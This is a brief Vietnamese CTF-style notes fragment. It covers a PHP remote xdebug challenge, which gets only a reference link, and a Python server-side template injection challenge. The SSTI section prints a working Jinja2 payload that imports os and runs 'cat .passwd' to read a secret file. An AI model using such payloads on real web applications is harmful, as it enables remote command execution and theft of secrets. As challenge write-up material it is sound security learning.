 Về ý tưởng thì cài file này y chang như bài viết mình đọc.

# PHP - remote xdebug

[Tham khảo](https://bugs.php.net/bug.php?id=76149)
# Python - Server-side Template Injection Introduction

Bài này thì là ssti đơn giản thôi

![image-58](https://github.com/user-attachments/assets/d6f7e837-bf01-4019-8a29-14cc2092ce04)

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat .passwd').read().replace("\n", " ") }}

